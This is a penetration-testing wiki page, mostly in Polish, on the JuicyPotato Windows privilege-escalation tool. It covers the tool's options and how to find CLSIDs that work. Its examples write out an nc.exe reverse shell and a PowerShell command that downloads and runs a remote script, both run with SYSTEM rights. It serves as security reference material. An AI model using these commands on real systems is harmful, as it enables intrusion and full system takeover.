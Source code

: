 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato nie działa** na Windows Server 2019 i Windows 10 od wersji 1809. Jednakże, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) mogą być użyte do **uzyskania tych samych uprawnień i zdobycia dostępu na poziomie `NT AUTHORITY\SYSTEM`**. _**Sprawdź:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (nadużywanie złotych uprawnień) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Słodsza wersja_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, z odrobiną soku, tj. **kolejne narzędzie do eskalacji uprawnień lokalnych, z kont usług Windows do NT AUTHORITY\SYSTEM**_

#### Możesz pobrać juicypotato z [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Podsumowanie <a href="#summary" id="summary"></a>

[**Z readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) i jego [warianty](https://github.com/decoder-it/lonelypotato) wykorzystują łańcuch eskalacji uprawnień oparty na [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [usłudze](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) mającej nasłuch MiTM na `127.0.0.1:6666` i gdy masz uprawnienia `SeImpersonate` lub `SeAssignPrimaryToken`. Podczas przeglądu wersji Windows znaleźliśmy konfigurację, w której `BITS` był celowo wyłączony, a port `6666` był zajęty.

Postanowiliśmy uzbroić [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Powitaj Juicy Potato**.

> Dla teorii, zobacz [Rotten Potato - Eskalacja uprawnień z kont usług do SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) i śledź łańcuch linków i odniesień.

Odkryliśmy, że oprócz `BITS` istnieje kilka serwerów COM, które możemy nadużyć. Muszą one tylko:

1. być instancjonowane przez bieżącego użytkownika, zazwyczaj „użytkownika usługi”, który ma uprawnienia do impersonacji
2. implementować interfejs `IMarshal`
3. działać jako użytkownik z podwyższonymi uprawnieniami (SYSTEM, Administrator, …)

Po kilku testach uzyskaliśmy i przetestowaliśmy obszerną listę [interesujących CLSID-ów](http://ohpe.it/juicy-potato/CLSID/) na kilku wersjach Windows.

### Soczyste szczegóły <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato pozwala Ci:

* **Cel CLSID** _wybierz dowolny CLSID, który chcesz._ [_Tutaj_](http://ohpe.it/juicy-potato/CLSID/) _możesz znaleźć listę uporządkowaną według systemu operacyjnego._
* **Port nasłuchujący COM** _zdefiniuj preferowany port nasłuchujący COM (zamiast hardcodowanego 6666)_
* **Adres IP nasłuchujący COM** _przypisz serwer do dowolnego adresu IP_
* **Tryb tworzenia procesu** _w zależności od uprawnień użytkownika impersonowanego możesz wybierać spośród:_
* `CreateProcessWithToken` (wymaga `SeImpersonate`)
* `CreateProcessAsUser` (wymaga `SeAssignPrimaryToken`)
* `oba`
* **Proces do uruchomienia** _uruchom plik wykonywalny lub skrypt, jeśli eksploatacja się powiedzie_
* **Argument procesu** _dostosuj argumenty uruchamianego procesu_
* **Adres serwera RPC** _dla dyskretnego podejścia możesz uwierzytelnić się w zewnętrznym serwerze RPC_
* **Port serwera RPC** _przydatne, jeśli chcesz uwierzytelnić się w zewnętrznym serwerze, a zapora blokuje port `135`…_
* **TRYB TESTOWY** _głównie do celów testowych, tj. testowanie CLSID-ów. Tworzy DCOM i drukuje użytkownika tokena. Zobacz_ [_tutaj do testowania_](http://ohpe.it/juicy-potato/Test/)

### Użycie <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**Z readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Jeśli użytkownik ma uprawnienia `SeImpersonate` lub `SeAssignPrimaryToken`, to jesteś **SYSTEM**.

Prawie niemożliwe jest zapobieżenie nadużywaniu wszystkich tych serwerów COM. Możesz pomyśleć o modyfikacji uprawnień tych obiektów za pomocą `DCOMCNFG`, ale powodzenia, to będzie wyzwanie.

Rzeczywistym rozwiązaniem jest ochrona wrażliwych kont i aplikacji, które działają pod kontami `* SERVICE`. Zatrzymanie `DCOM` z pewnością uniemożliwiłoby to wykorzystanie, ale mogłoby mieć poważny wpływ na podstawowy system operacyjny.

Z: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Odwiedź [tę stronę](https://ohpe.it/juicy-potato/CLSID/), aby zobaczyć listę CLSID-ów do wypróbowania.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Uruchom nowy CMD (jeśli masz dostęp RDP)

![](<../../.gitbook/assets/image (300).png>)

## Problemy z CLSID

Często domyślny CLSID, który używa JuicyPotato, **nie działa** i exploit się nie powodzi. Zazwyczaj wymaga to wielu prób, aby znaleźć **działający CLSID**. Aby uzyskać listę CLSID do przetestowania dla konkretnego systemu operacyjnego, powinieneś odwiedzić tę stronę:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Sprawdzanie CLSID**

Najpierw będziesz potrzebować kilku plików wykonywalnych oprócz juicypotato.exe.

Pobierz [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) i załaduj go do swojej sesji PS, a następnie pobierz i uruchom [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Ten skrypt stworzy listę możliwych CLSID do przetestowania.

Następnie pobierz [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) (zmień ścieżkę do listy CLSID i do pliku wykonywalnego juicypotato) i uruchom go. Zacznie próbować każdy CLSID, a **gdy numer portu się zmieni, oznacza to, że CLSID zadziałał**.

**Sprawdź** działające CLSID **używając parametru -c**

## Odniesienia

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
